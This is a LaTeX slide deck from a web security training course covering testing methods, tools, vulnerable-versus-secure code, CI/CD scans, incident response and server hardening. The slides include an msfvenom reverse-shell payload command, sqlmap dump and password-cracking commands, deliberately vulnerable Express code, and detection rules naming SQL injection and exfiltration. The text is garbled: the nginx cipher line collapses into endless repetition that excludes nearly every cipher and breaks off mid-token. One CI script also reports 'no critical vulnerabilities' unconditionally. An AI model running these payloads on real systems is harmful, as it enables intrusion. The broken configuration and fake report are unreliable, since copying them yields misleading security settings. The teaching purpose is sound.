
\documentclass[aspectratio=169,12pt]{beamer}
\usepackage[utf8]{inputenc}
\usepackage{graphicx}
\usepackage{tikz}
\usepackage{listings}
\usepackage{hyperref}
\usepackage{booktabs}
\usepackage{multicol}
\usepackage{xcolor}
\usepackage{fontawesome5}
\usepackage{verbatim}

\usetheme{Madrid}
\usecolortheme{whale}
\setbeamertemplate{navigation symbols}{}

\definecolor{codegreen}{rgb}{0,0.6,0}
\definecolor{codegray}{rgb}{0.5,0.5,0.5}
\definecolor{codepurple}{rgb}{0.58,0,0.82}
\definecolor{backcolour}{rgb}{0.95,0.95,0.92}
\definecolor{alertred}{rgb}{0.8,0.1,0.1}
\definecolor{alertgreen}{rgb}{0.1,0.8,0.1}
\definecolor{securityblue}{RGB}{0,102,204}

\lstdefinestyle{mystyle}{
    backgroundcolor=\color{backcolour},   
    commentstyle=\color{codegreen},
    keywordstyle=\color{magenta},
    numberstyle=\tiny\color{codegray},
    stringstyle=\color{codepurple},
    basicstyle=\ttfamily\footnotesize,
    breakatwhitespace=false,         
    breaklines=true,                 
    captionpos=b,                    
    keepspaces=true,                 
    numbers=left,                    
    numbersep=5pt,                  
    showspaces=false,                
    showstringspaces=false,
    showtabs=false,                  
    tabsize=2
}
\lstset{style=mystyle}

\title{Day 4: Security Testing, Mitigation, and Best Practices}
\subtitle{Comprehensive Training with Practical Examples and Hands-on Exercises}
\author{Security Training Team}
\institute{Web Application Security Department}
\date{\today}

\begin{document}

\begin{frame}
\titlepage
\end{frame}

\begin{frame}{Training Objectives}
\begin{columns}
\column{0.5\textwidth}
\textbf{Learning Outcomes:}
\begin{itemize}
\item[\faIcon{check-circle}] Understand security testing methodologies
\item[\faIcon{check-circle}] Apply vulnerability assessment techniques
\item[\faIcon{check-circle}] Implement penetration testing strategies
\item[\faIcon{check-circle}] Apply security best practices
\end{itemize}
\column{0.5\textwidth}
\textbf{Practical Skills:}
\begin{itemize}
\item[\faIcon{laptop-code}] Security testing automation
\item[\faIcon{tools}] Vulnerability management
\item[\faIcon{shield-alt}] Security implementation
\item[\faIcon{clipboard-check}]{Incident response planning}
\end{itemize}
\end{columns}
\end{frame}

\begin{frame}{Security Testing Methodologies}
\begin{columns}
\column{0.6\textwidth}
\textbf{Types of Security Testing:}
\begin{enumerate}
\item \textbf{Vulnerability Assessment}
\begin{itemize}
\item[\faIcon{radar}] Automated scanning tools
\item[\faIcon{search}] Vulnerability identification
\item[\faIcon{chart-line}] Risk prioritization
\item[\faIcon{clipboard-check}] Compliance verification
\end{itemize}
\item \textbf{Penetration Testing}
\begin{itemize}
\item[\faIcon{user-secret}] Manual testing approach
\item[\faIcon{bomb}] Exploitation attempts
\item[\faIcon{target}] Real-world attack simulation
\item[\faIcon{clipboard-check}] Detailed reporting
\end{itemize}
\item \textbf{Security Code Review}
\begin{itemize}
\item[\faIcon{code}] Static analysis tools
\item[\faIcon{search}] Dynamic analysis
\item[\faIcon{user}] Manual code inspection
\item[\faIcon{clipboard-check}] Secure coding practices
\end{itemize}
\item \textbf{Security Architecture Review}
\begin{itemize}
\item[\faIcon{sitemap}] Design pattern analysis
\item[\faIcon{shield-alt}] Threat modeling
\item[\faIcon{key}] Access control review
\item[\faIcon{clipboard-check}] Security validation}
\end{itemize}
\column{0.4\textwidth}

\begin{tikzpicture}[scale=0.8]
\node[draw, rectangle, fill=blue!20] (va) at (0,3) {Vulnerability Assessment};
\node[draw, rectangle, fill=green!20] (pt) at (0,1.5) {Penetration Testing};
\node[draw, rectangle, fill=orange!20] (cr) at (0,0) {Code Review};
\node[draw, rectangle, fill=red!20] (ar) at (0,-1.5) {Architecture Review};

\draw[->, thick] (va) -- (pt);
\draw[->, thick] (pt) -- (cr);
\draw[->, thick] (cr) -- (ar);
\end{tikzpicture}
\vspace{0.5cm}
\textbf{Testing Levels:}
\begin{itemize}
\item[\faIcon{layer-group}] Unit testing
\item[\faIcon{layer-group}] Integration testing
\item[\faIcon{layer-group}] System testing
\item[\faIcon{layer-group}]{Acceptance testing}
\end{itemize}
\end{columns}
\end{frame}

\begin{frame}[fragile]{Vulnerability Assessment Process}
\begin{columns}
\column{0.5\textwidth}
\textbf{Assessment Methodology:}
\begin{enumerate}
\item \textbf{Planning and Scoping}
\begin{itemize}
\item Define scope and objectives
\item Identify assets and systems
\item Set assessment criteria
\item Establish timeline and resources
\end{itemize}
\item \textbf{Information Gathering}
\begin{itemize}
\item Asset discovery
\item Network mapping
\item Service enumeration
\item Technology fingerprinting
\end{itemize}
\item \textbf{Vulnerability Scanning}
\begin{itemize}
\item Automated scanning tools
\item Manual verification
\item False positive identification
\item Risk assessment
\end{itemize}
\item \textbf{Reporting and Remediation}
\begin{itemize}
\item Risk prioritization
\item Remediation planning
\item Timeline establishment
\item Follow-up procedures
\end{itemize}
\column{0.5\textwidth}
\textbf{Vulnerability Assessment Tools:}
\begin{lstlisting}[language=bash]
# OpenVAS vulnerability scanner
openvas-setup
openvas-start
openvas-nasl-exec -t target

# Nessus vulnerability scanner
nessuscli scan --new target
nessuscli scan --launch scan_id

# OWASP Dependency Check
dependency-check --project "Project Name" --scan ./src

# Trivy vulnerability scanner
trivy image --format table --exit-code 0 target-image
trivy fs --format table --exit-code 0 ./src

# Nmap vulnerability scanning
nmap --script vuln target

# Nikto web server scanning
nikto -h http://target

# Skipfish web application scanner
skipfish -o scan_output http://target

# Vega vulnerability scanner
vega -scanurl http://target
\end{lstlisting}
\end{columns}
\end{frame}

\begin{frame}[fragile]{Penetration Testing Methodology}
\begin{columns}
\column{0.5\textwidth}
\textbf{Penetration Testing Phases:}
\begin{enumerate}
\item \textbf{Pre-engagement}
\begin{itemize}
\item Scope definition
\item Rules of engagement
\item Resource planning
\item Legal documentation
\end{itemize}
\item \textbf{Reconnaissance}
\begin{itemize}
\item Passive information gathering
\item Active scanning
\item Target analysis
\item Attack surface mapping
\end{itemize}
\item \textbf{Exploitation}
\begin{itemize}
\item Vulnerability identification
\item Exploitation attempts
\item Post-exploitation activities
\item Data extraction
\end{itemize}
\item \textbf{Reporting}
\begin{itemize}
\item Findings documentation
\item Risk assessment
\item Remediation recommendations
\item Executive summary
\end{itemize}
\column{0.5\textwidth}
\textbf{Penetration Testing Tools:}
\begin{lstlisting}[language=bash]
# Metasploit Framework
msfconsole
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.101 LPORT=4444 -f raw > shell.php

# Burp Suite
burpsuite
# Configure proxy: 127.0.0.1:8080

# OWASP ZAP
owasp-zap -daemon -host 0.0.0.0 -port 8090
# Access: http://localhost:8090

# SQLMap
sqlmap -u "http://target/page.php?id=1" --dbs
sqlmap -u "http://target/page.php?id=1" --dump

# Nmap
nmap -sV -sC -O target
nmap --script vuln target

# Wireshark
wireshark
# Capture and analyze network traffic

# John the Ripper
john --wordlist=rockyou.txt hash.txt
john --format=raw-md5 --wordlist=rockyou.txt hash.txt

# Hashcat
hashcat -m 0 hash.txt rockyou.txt
hashcat -m 1000 hash.txt rockyou.txt
\end{lstlisting}
\end{columns}
\end{frame}

\begin{frame}[fragile]{Security Code Review}
\begin{columns}
\column{0.5\textwidth}
\textbf{Code Review Areas:}
\begin{enumerate}
\item \textbf{Input Validation}
\begin{itemize}
\item[\faIcon{exclamation-triangle}] SQL injection prevention
\item[\faIcon{exclamation-triangle}] XSS protection
\item[\faIcon{exclamation-triangle}] File upload security
\item[\faIcon{exclamation-triangle}] Command injection
\end{itemize}
\item \textbf{Authentication and Authorization}
\begin{itemize}
\item[\faIcon{exclamation-triangle}] Session management
\item[\faIcon{exclamation-triangle}] Access control
\item[\faIcon{exclamation-triangle}] Password handling
\item[\faIcon{exclamation-triangle]}]{Multi-factor authentication}
\end{itemize}
\item \textbf{Error Handling}
\begin{itemize}
\item[\faIcon{exclamation-triangle}] Information disclosure
\item[\faIcon{exclamation-triangle}] Stack traces
\item[\faIcon{exclamation-triangle}] Error messages
\item[\faIcon{exclamation-triangle}]{Logging practices}
\end{itemize}
\item \textbf{Data Protection}
\begin{itemize}
\item[\faIcon{exclamation-triangle}] Encryption
\item[\faIcon{exclamation-triangle}] Secure storage
\item[\faIcon{exclamation-triangle}] Data transmission
\item[\faIcon{exclamation-triangle]}{Data masking}
\end{itemize}
\column{0.5\textwidth}
\textbf{Code Review Tools:}
\begin{lstlisting}[language=bash]
# SonarQube code analysis
sonar-scanner -Dsonar.projectKey=my-project
sonar-scanner -Dsonar.projectName=MyProject

# Checkmarx SAST
checkmarxcli scan --project "My Project" --scan-type "SAST"

# Veracode Static Analysis
veracodecli scan --app "My App" --create-scan

# Fortify SCA
fortifyfpr -project "My Project" -source "src/"

# CodeQL database creation
codeql database create my-db --language=java --source-root=src/

# CodeQL query execution
codeql database query my-db --query="security-queries.ql"

# ESLint for JavaScript
eslint src/ --ext .js,.jsx

# Pylint for Python
pylint src/

# Bandit for Python
bandit -r src/

# Semgrep for multiple languages
semgrep --config=auto src/
\end{lstlisting}
\end{columns}
\end{frame}

\begin{frame}[fragile]{Security Code Review Examples}
\begin{columns}
\column{0.5\textwidth}
\textbf{Vulnerable Code:}
\begin{lstlisting}[language=JavaScript]
// Vulnerable: SQL Injection
app.get('/user/:id', (req, res) => {
    const userId = req.params.id;
    const query = `SELECT * FROM users WHERE id = ${userId}`;
    db.query(query, (err, results) => {
        res.json(results);
    });
});

// Vulnerable: XSS
app.post('/comment', (req, res) => {
    const comment = req.body.comment;
    // No output encoding
    res.send(`Comment: ${comment}`);
});

// Vulnerable: File Upload
app.post('/upload', (req, res) => {
    const file = req.files.file;
    // No validation
    file.mv(`./uploads/${file.name}`);
    res.send('File uploaded');
});

// Vulnerable: Error Handling
app.get('/data', (req, res) => {
    try {
        const data = riskyOperation();
        res.json(data);
    } catch (error) {
        // Information disclosure
        res.status(500).send(`Error: ${error.message}`);
    }
});
\end{lstlisting}
\column{0.5\textwidth}
\textbf{Secure Code:}
\begin{lstlisting}[language=JavaScript]
// Secure: Parameterized Query
app.get('/user/:id', (req, res) => {
    const userId = req.params.id;
    // Parameterized query
    db.query('SELECT * FROM users WHERE id = ?', [userId], 
        (err, results) => {
        if (err) {
            res.status(500).json({ error: 'Database error' });
        } else {
            res.json(results);
        }
    });
});

// Secure: Output Encoding
app.post('/comment', (req, res) => {
    const comment = req.body.comment;
    // Output encoding
    const safeComment = escapeHtml(comment);
    res.send(`Comment: ${safeComment}`);
});

// Secure: File Upload
app.post('/upload', upload.single('file'), (req, res) => {
    const file = req.file;
    // File validation
    if (!file) {
        return res.status(400).send('No file uploaded');
    }
    
    const allowedTypes = ['image/jpeg', 'image/png', 'application/pdf'];
    if (!allowedTypes.includes(file.mimetype)) {
        return res.status(400).send('Invalid file type');
    }
    
    // Secure filename
    const safeFilename = `${Date.now()}-${file.originalname}`;
    file.mv(`./uploads/${safeFilename}`);
    res.send('File uploaded successfully');
});

// Secure: Error Handling
app.get('/data', (req, res) => {
    try {
        const data = riskyOperation();
        res.json(data);
    } catch (error) {
        // Generic error message
        res.status(500).json({ error: 'Internal server error' });
        // Log detailed error
        logger.error('Data retrieval error', { error: error.message });
    }
});
\end{lstlisting}
\end{columns}
\end{frame}

\begin{frame}[fragile]{Security Best Practices}
\begin{columns}
\column{0.5\textwidth}
\textbf{Development Security:}
\begin{enumerate}
\item \textbf{Secure Coding Standards}
\begin{itemize}
\item[\faIcon{check-circle}] OWASP Secure Coding Practices
\item[\faIcon{check-circle}] Language-specific guidelines
\item[\faIcon{check-circle}] Code review checklists
\item[\faIcon{check-circle}]{Static analysis integration}
\end{itemize}
\item \textbf{Security Testing in CI/CD}
\begin{itemize}
\item[\faIcon{check-circle}] Automated security scans
\item[\faIcon{check-circle}] SAST/DAST integration
\item[\faIcon{check-circle}] Container security scanning
\item[\faIcon{check-circle}]{Dependency vulnerability checks}
\end{itemize}
\item \textbf{Secure Development Lifecycle}
\begin{itemize}
\item[\faIcon{check-circle}] Threat modeling
\item[\faIcon{check-circle}] Security requirements
\item[\faIcon{check-circle}] Secure architecture design
\item[\faIcon{check-circle}]{Security testing phases}
\end{itemize}
\item \textbf{Security Training and Awareness}
\begin{itemize}
\item[\faIcon{check-circle}] Regular security training
\item[\faIcon{check-circle}] Secure coding workshops
\item[\faIcon{check-circle}] Security awareness programs
\item[\faIcon{check-circle}]{Knowledge sharing sessions}
\end{itemize}
\column{0.5\textwidth}
\textbf{Infrastructure Security:}
\begin{enumerate}
\item \textbf{Network Security}
\begin{itemize}
\item[\faIcon{check-circle}] Firewalls and WAFs
\item[\faIcon{check-circle}] Network segmentation
\item[\faIcon{check-circle}] IDS/IPS systems
\item[\faIcon{check-circle}]{DDoS protection}
\end{itemize}
\item \textbf{Host Security}
\begin{itemize}
\item[\faIcon{check-circle}] OS hardening
\item[\faIcon{check-circle}] Regular updates
\item[\faIcon{check-circle}] File permissions
\item[\faIcon{check-circle}]{Antivirus/EDR}
\end{itemize}
\item \textbf{Cloud Security}
\begin{itemize}
\item[\faIcon{check-circle}] IAM configuration
\item[\faIcon{check-circle}] Cloud security posture
\item[\faIcon{check-circle}] Encryption at rest
\item[\faIcon{check-circle}]{Logging and monitoring}
\end{itemize}
\item \textbf{Operational Security}
\begin{itemize}
\item[\faIcon{check-circle}] Security monitoring
\item[\faIcon{check-circle}] Incident response
\item[\faIcon{check-circle}] Backup and recovery
\item[\faIcon{check-circle}]{Disaster recovery}
\end{itemize}
\end{enumerate}
\end{columns}
\end{frame}

\begin{frame}[fragile]{CI/CD Security Integration}
\begin{columns}
\column{0.5\textwidth}
\textbf{GitHub Actions Security Workflow:}
\begin{lstlisting}[language=yaml]
name: Security Pipeline

on:
  push:
    branches: [ main, develop ]
  pull_request:
    branches: [ main ]

jobs:
  security-scan:
    runs-on: ubuntu-latest
    
    steps:
    - name: Checkout code
      uses: actions/checkout@v3
    
    - name: Run SAST analysis
      uses: securecodewarrior/github-action-add-sarif@v1
      with:
        sarif-file: 'results.sarif'
    
    - name: Run dependency check
      run: |
        npm audit --audit-level moderate
        npm audit fix
    
    - name: Container security scan
      uses: aquasecurity/trivy-action@master
      with:
        scan-type: 'fs'
        scan-ref: '.'
        format: 'sarif'
        output: 'trivy-results.sarif'
    
    - name: Upload security results
      uses: github/codeql-action/upload-sarif@v2
      with:
        sarif_file: 'trivy-results.sarif'
    
    - name: Security report
      if: always()
      uses: actions/github-script@v6
      with:
        script: |
          const fs = require('fs');
          const path = require('path');
          
          // Generate security report
          let report = '# Security Scan Report\n\n';
          report += '## Summary\n';
          report += '- **SAST Analysis**: Completed\n';
          report += '- **Dependency Check**: Completed\n';
          report += '- **Container Scan**: Completed\n\n';
          
          // Add findings summary
          report += '## Findings\n';
          report += 'No critical vulnerabilities found.\n';
          
          // Create report file
          fs.writeFileSync('security-report.md', report);
          
          // Comment on PR
          if (context.eventName === 'pull_request') {
            github.rest.issues.createComment({
              issue_number: context.issue.number,
              owner: context.repo.owner,
              repo: context.repo.repo,
              body: 'Security scan completed successfully. See security-report.md for details.'
            });
          }
\end{lstlisting}
\column{0.5\textwidth}
\textbf{Jenkins Pipeline Security:}
\begin{lstlisting}[language=groovy]
pipeline {
    agent any
    
    environment {
        SECURITY_REPORT = 'security-report.html'
    }
    
    stages {
        stage('Checkout') {
            steps {
                checkout scm
            }
        }
        
        stage('SAST Analysis') {
            steps {
                sh 'sonar-scanner -Dsonar.projectKey=${JOB_NAME} -Dsonar.projectName=${JOB_NAME}'
            }
        }
        
        stage('Dependency Check') {
            steps {
                sh 'npm audit --audit-level moderate'
                sh 'npm audit fix'
            }
        }
        
        stage('Container Security') {
            steps {
                script {
                    def scanResult = sh(
                        script: 'trivy image --format table --exit-code 0 my-image:latest',
                        returnStdout: true
                    )
                    currentBuild.description = "Security Scan: ${scanResult}"
                }
            }
        }
        
        stage('Generate Report') {
            steps {
                script {
                    def report = """
                    # Security Scan Report
                    
                    ## Scan Results
                    - **SAST**: ${currentBuild.description.contains('vulnerabilities') ? 'VULNERABLE' : 'CLEAN'}
                    - **Dependencies**: ${env.DEPENDENCY_STATUS ?: 'UNKNOWN'}
                    - **Container**: ${env.CONTAINER_STATUS ?: 'UNKNOWN'}
                    
                    ## Recommendations
                    1. Review and fix all security vulnerabilities
                    2. Update dependencies regularly
                    3. Implement security monitoring
                    4. Conduct regular security audits
                    """
                    
                    writeFile file: SECURITY_REPORT, text: report
                }
            }
        }
    }
    
    post {
        always {
            archiveArtifacts artifacts: SECURITY_REPORT, fingerprint: true
            publishHTML([
                allowMissing: false,
                alwaysLinkToLastBuild: true,
                keepAll: true,
                reportDir: '.',
                reportFiles: SECURITY_REPORT,
                reportName: 'Security Report'
            ])
        }
        
        failure {
            emailext (
                subject: "Security Scan Failed: ${env.JOB_NAME} - ${env.BUILD_NUMBER}",
                body: """
                Security scan failed for ${env.JOB_NAME} - ${env.BUILD_NUMBER}
                
                Please check the security report for details.
                
                Build URL: ${env.BUILD_URL}
                """,
                to: "${env.CHANGE_AUTHOR_EMAIL}, security-team@company.com"
            )
        }
    }
}
\end{lstlisting}
\end{columns}
\end{frame}

\begin{frame}[fragile]{Incident Response Planning}
\begin{columns}
\column{0.5\textwidth}
\textbf{Incident Response Lifecycle:}
\begin{enumerate}
\item \textbf{Preparation}
\begin{itemize}
\item[\faIcon{clipboard-check}] Develop incident response plan
\item[\faIcon{users}] Establish response team
\item[\faIcon{book}] Create playbooks
\item[\faIcon{tools}] Prepare tools and resources
\end{itemize}
\item \textbf{Detection and Analysis}
\begin{itemize}
\item[\faIcon{radar}] Monitoring and alerting
\item[\faIcon{search}] Incident classification
\item[\faIcon{chart-line}] Impact assessment
\item[\faIcon{clipboard-check}] Documentation
\end{itemize}
\item \textbf{Containment, Eradication, and Recovery}
\begin{itemize}
\item[\faIcon{lock}] Containment strategies
\item[\faIcon{bomb}] Root cause analysis
\item[\faIcon{tools}] System restoration
\item[\faIcon{clipboard-check]}]{Verification}
\end{itemize}
\item \textbf{Post-Incident Activity}
\begin{itemize}
\item[\faIcon{book}] Lessons learned
\item[\faIcon{clipboard-check}] Plan updates
\item[\faIcon{users}] Training improvements
\item[\faIcon{tools}] Process refinement}
\end{itemize}
\column{0.5\textwidth}
\textbf{Incident Response Plan Template:}
\begin{lstlisting}[language=yaml]
# Incident Response Plan
incident_response:
  team:
    leader: "security-lead@company.com"
    members:
      - "security-analyst@company.com"
      - "sysadmin@company.com"
      - "network-engineer@company.com"
      - "legal-counsel@company.com"
  
  contact_info:
    emergency: "emergency@company.com"
    security: "security@company.com"
    legal: "legal@company.com"
    pr: "pr@company.com"
  
  escalation_matrix:
    level_1: "security-team@company.com"
    level_2: "security-lead@company.com"
    level_3: "cto@company.com"
    level_4: "ceo@company.com"
  
  playbooks:
    - "data_breach.yml"
    - "malware_infection.yml"
    - "ddos_attack.yml"
    - "insider_threat.yml"
    - "phishing_incident.yml"
  
  tools:
    - "siem_system"
    - "forensic_tools"
    - "backup_system"
    - "communication_platform"
  
  communication:
    internal: "company-chat"
    external: "pr-team"
    customers: "customer-support"
    authorities: "legal-team"
  
  timeline:
    detection: "< 1 hour"
    containment: "< 2 hours"
    eradication: "< 24 hours"
    recovery: "< 48 hours"
    post_mortem: "< 72 hours"
\end{lstlisting}
\end{columns}
\end{frame}

\begin{frame}[fragile]{Security Monitoring and Alerting}
\begin{columns}
\column{0.5\textwidth}
\textbf{Monitoring Components:}
\begin{enumerate}
\item \textbf{Log Management}
\begin{itemize}
\item[\faIcon{folder-open}] Centralized logging
\item[\faIcon{search}] Log correlation
\item[\faIcon{clock}] Retention policies
\item[\faIcon{clipboard-check}] Log analysis
\end{itemize}
\item \textbf{Security Information and Event Management (SIEM)}
\begin{itemize}
\item[\faIcon{radar}] Real-time monitoring
\item[\faIcon{bell}] Alerting and notifications
\item[\faIcon{chart-line}] Compliance reporting
\item[\faIcon{clipboard-check}] Threat detection}
\end{itemize}
\item \textbf{Intrusion Detection/Prevention Systems (IDS/IPS)}
\begin{itemize}
\item[\faIcon{network-wired}] Network-based monitoring
\item[\faIcon{desktop}] Host-based monitoring
\item[\faIcon{user}] Behavioral analysis
\item[\faIcon{clipboard-check}] Anomaly detection}
\end{itemize}
\item \textbf{Security Orchestration, Automation, and Response (SOAR)}
\begin{itemize}
\item[\faIcon{robot}] Automated response
\item[\faIcon{clipboard-check}] Playbook execution
\item[\faIcon{tools}] Integration with security tools
\item[\faIcon{clipboard-check}] Incident management}
\end{itemize}
\column{0.5\textwidth}
\textbf{Monitoring Configuration:}
\begin{lstlisting}[language=yaml]
# ELK Stack Security Monitoring
elasticsearch:
  hosts: ["localhost:9200"]
  username: "elastic"
  password: "${ELASTIC_PASSWORD}"

logstash:
  pipeline:
    - "01-input.conf"
    - "02-filter.conf"
    - "03-output.conf"

kibana:
  host: "localhost:5601"
  username: "elastic"
  password: "${ELASTIC_PASSWORD}"

# Security Rules
security_rules:
  - name: "Failed Login Attempts"
    condition: "event.category:auth AND event.action:failed"
    threshold: "5 within 5m"
    action: "alert"
    
  - name: "SQL Injection Detection"
    condition: "http.request.body:*' OR *1=1*"
    threshold: "1 within 1m"
    action: "block"
    
  - name: "Malware Detection"
    condition: "file.name:*.exe AND process.name:cmd.exe"
    threshold: "1 within 1m"
    action: "quarantine"
    
  - name: "Data Exfiltration"
    condition: "network.destination.port:443 AND network.bytes_out > 100MB"
    threshold: "1 within 5m"
    action: "alert"

# Alerting Configuration
alerting:
  channels:
    - name: "Email"
      type: "email"
      recipients: ["security-team@company.com"]
    - name: "Slack"
      type: "slack"
      webhook: "${SLACK_WEBHOOK}"
    - name: "PagerDuty"
      type: "pagerduty"
      service_key: "${PAGERDUTY_KEY}"
\end{lstlisting}
\end{columns}
\end{frame}

\begin{frame}[fragile]{Hands-on Lab: Security Implementation}
\begin{columns}
\column{0.5\textwidth}
\textbf{Lab Objectives:}
\begin{itemize}
\item[\faIcon{target}] Implement security controls
\item[\faIcon{tools}] Configure security tools
\item[\faIcon{shield-alt}] Test security measures
\item[\faIcon{clipboard-check}] Create security documentation
\end{itemize}
\textbf{Lab Environment Setup:}
\begin{lstlisting}[language=bash]
# Setup vulnerable application
docker run -p 8080:80 vulnerable-web-app

# Security tools to configure
- OWASP ZAP
- Burp Suite
- Metasploit
- Nmap
- WAF (ModSecurity)
- SIEM (ELK Stack)
- IDS/IPS (Suricata)

# Monitoring tools
- Prometheus
- Grafana
- ELK Stack
- Splunk
\end{lstlisting}
\column{0.5\textwidth}
\textbf{Lab Tasks:}
\begin{enumerate}
\item \textbf{Web Application Firewall Configuration}
\begin{itemize}
\item Install and configure ModSecurity
\item Create security rules
\item Test WAF effectiveness
\item Monitor and analyze logs
\end{itemize}
\item \textbf{Input Validation Implementation}
\begin{itemize}
\item Implement server-side validation
\item Create validation rules
\item Test bypass attempts
\item Document findings
\end{itemize}
\item \textbf{Monitoring and Alerting Setup}
\begin{itemize}
\item Configure ELK Stack
\item Create dashboards
\item Set up alerts
\item Test notification systems
\end{itemize}
\item \textbf{Security Policy Development}
\begin{itemize}
\item Create security policies
\item Develop incident response plan
\item Create playbooks
\item Document procedures
\end{itemize}
\item \textbf{Incident Response Testing}
\begin{itemize}
\item Simulate security incidents
\item Test response procedures
\item Evaluate effectiveness
\item Document lessons learned
\end{itemize}
\end{enumerate}
\end{columns}
\end{frame}

\begin{frame}[fragile]{Practical Example: Secure Web Application Deployment}
\begin{columns}
\column{0.5\textwidth}
\textbf{Secure Deployment Configuration:}
\begin{lstlisting}[language=yaml]
# Docker Compose with Security
version: '3.8'

services:
  # Web Application
  webapp:
    build: .
    ports:
      - "80:80"
      - "443:443"
    environment:
      - NODE_ENV=production
      - DB_HOST=postgres
      - REDIS_HOST=redis
    volumes:
      - ./ssl:/etc/ssl
      - ./logs:/var/log/nginx
    depends_on:
      - postgres
      - redis
    restart: unless-stopped
    security_opt:
      - no-new-privileges:true
      - apparmor:webapp-profile
    cap_drop:
      - ALL
    cap_add:
      - SETGID
      - SETUID
      - DAC_OVERRIDE
    read_only: true
    tmpfs:
      - /tmp
      - /run

  # Database
  postgres:
    image: postgres:13
    environment:
      POSTGRES_DB: webapp
      POSTGRES_USER: secure_user
      POSTGRES_PASSWORD: ${DB_PASSWORD}
    volumes:
      - postgres_data:/var/lib/postgresql/data
      - ./postgres-backups:/backups
    restart: unless-stopped
    security_opt:
      - no-new-privileges:true
    cap_drop:
      - ALL
    cap_add:
      - CHOWN
      - DAC_OVERRIDE
    read_only: true

  # Redis Cache
  redis:
    image: redis:alpine
    command: redis-server --requirepass ${REDIS_PASSWORD}
    volumes:
      - redis_data:/data
    restart: unless-stopped
    security_opt:
      - no-new-privileges:true
    cap_drop:
      - ALL
    cap_add:
      - SETGID
      - SETUID
    read_only: true

  # Nginx Reverse Proxy
  nginx:
    image: nginx:alpine
    ports:
      - "80:80"
      - "443:443"
    volumes:
      - ./nginx.conf:/etc/nginx/nginx.conf
      - ./ssl:/etc/ssl
      - ./logs:/var/log/nginx
    depends_on:
      - webapp
    restart: unless-stopped
    security_opt:
      - no-new-privileges:true
    cap_drop:
      - ALL
    cap_add:
      - CHOWN
      - DAC_OVERRIDE
    read_only: true

volumes:
  postgres_data:
  redis_data:
\end{lstlisting}
\column{0.5\textwidth}
\textbf{Security Configuration Files:}
\begin{lstlisting}[language=bash]
# nginx.conf with security hardening
user nginx;
worker_processes auto;
error_log /var/log/nginx/error.log warn;
pid /var/run/nginx.pid;

events {
    worker_connections 1024;
    use epoll;
    multi_accept on;
}

http {
    include /etc/nginx/mime.types;
    default_type application/octet-stream;

    # Security headers
    add_header X-Frame-Options "SAMEORIGIN" always;
    add_header X-Content-Type-Options "nosniff" always;
    add_header X-XSS-Protection "1; mode=block" always;
    add_header Strict-Transport-Security "max-age=31536000; includeSubDomains" always;
    add_header Content-Security-Policy "default-src 'self'; script-src 'self' 'unsafe-inline'; style-src 'self' 'unsafe-inline'" always;
    add_header Referrer-Policy "strict-origin-when-cross-origin" always;
    add_header Permissions-Policy "geolocation=(), microphone=(), camera=()" always;

    # SSL/TLS configuration
    ssl_protocols TLSv1.2 TLSv1.3;
    ssl_ciphers HIGH:!aNULL:!MD5:!RC4:!3DES:!CAMELLIA:!SEED:!IDEA:!PSK:!SRP:!DSS:!DH:!RSA:!ECDSA:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES